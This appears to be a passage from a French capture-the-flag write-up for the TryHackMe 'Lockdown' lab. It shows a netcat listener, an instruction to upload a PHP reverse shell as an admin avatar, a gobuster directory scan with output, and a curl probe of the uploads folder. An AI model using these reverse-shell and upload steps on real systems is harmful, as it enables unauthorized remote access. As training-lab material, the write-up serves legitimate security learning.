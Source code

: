 On se connecte avec les identifiants.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234
```

On écoute le port 1234 pour avoir un shell.   

![page](./Task1-05.png)    

Dans administrator admin mettre un fichier reverse shell en php dans l'avatar.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://lockdown.thm -w /usr/share/dirb/wordlists/common.txt -t 100 -q
/admin                (Status: 301) [Size: 312] [--> http://lockdown.thm/admin/]
/.htpasswd            (Status: 403) [Size: 277]                                 
/build                (Status: 301) [Size: 312] [--> http://lockdown.thm/build/]
/classes              (Status: 301) [Size: 314] [--> http://lockdown.thm/classes/]
/.hta                 (Status: 403) [Size: 277]                                   
/.htaccess            (Status: 403) [Size: 277]                                   
/dist                 (Status: 301) [Size: 311] [--> http://lockdown.thm/dist/]   
/inc                  (Status: 301) [Size: 310] [--> http://lockdown.thm/inc/]    
/index.php            (Status: 200) [Size: 17762]                                 
/libs                 (Status: 301) [Size: 311] [--> http://lockdown.thm/libs/]   
/plugins              (Status: 301) [Size: 314] [--> http://lockdown.thm/plugins/]
/server-status        (Status: 403) [Size: 277]                                   
/temp                 (Status: 301) [Size: 311] [--> http://lockdown.thm/temp/]   
/uploads              (Status: 301) [Size: 314] [--> http://lockdown.thm/uploads/]

```

gobuster nous indique un répertoire uploads.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://lockdown.thm/uploads/reverseShell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at lockdown.thm Port 80</address>
</body></html>
```
